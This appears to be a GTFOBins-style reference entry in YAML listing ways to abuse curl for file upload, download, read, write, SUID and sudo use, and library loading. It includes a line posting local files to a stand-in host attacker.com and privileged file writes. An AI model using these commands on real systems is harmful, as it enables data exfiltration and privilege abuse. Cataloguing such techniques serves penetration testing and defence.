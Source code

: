 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d "@$LFILE" $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  file-write:
    - description: The file path must be absolute.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        curl "file://$TF" -o "$LFILE"
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo curl $URL -o $LFILE
  library-load:
    - description: Load a shared library as OpenSSL engine. Only works if curl is compiled with OpenSSL and OpenSSL has engine support enabled.
      code: |
         curl --engine /path/to/library.so https://example.com
---
```

